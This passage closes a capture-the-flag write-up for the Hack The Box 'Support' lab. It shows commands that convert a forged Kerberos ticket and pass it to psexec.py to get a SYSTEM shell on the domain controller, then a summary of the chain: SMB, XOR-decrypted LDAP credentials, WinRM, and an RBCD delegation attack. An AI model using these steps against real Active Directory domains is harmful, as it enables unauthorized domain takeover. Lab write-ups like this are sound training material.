 ```bash
# 1. Convert Kerberos ticket
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache

# 2. Use ticket to get Administrator shell
export KRB5CCNAME=ticket.ccache
psexec.py support.htb/administrator@dc.support.htb -k -no-pass
# → NT AUTHORITY\SYSTEM obtained!
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar px-6 py-5 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-4 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Complete Attack Path
    </h3>
    <div class="space-y-4">
        <div class="flex items-start gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500 mt-1">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and SMB Access</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → Anonymous SMB → UserInfo.exe.zip</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500 mt-1">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Reverse Engineering</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ILSpy → XOR Decryption → LDAP Credentials</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500 mt-1">3</div>
            <div class="flex-1">
                <div class="font-bold text-purple-600 dark:text-purple-400">LDAP Enumeration and WinRM</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ldapsearch → info attribute → WinRM support</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-red-50 dark:bg-red-900/20 rounded-lg border-l-4 border-red-500">
            <div class="text-3xl font-bold text-red-500 mt-1">4</div>
            <div class="flex-1">
                <div class="font-bold text-red-600 dark:text-red-400">Privilege Escalation</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">BloodHound → GenericAll → RBCD Attack → SYSTEM</div>
            </div>
        </div>
    </div>
</div>

---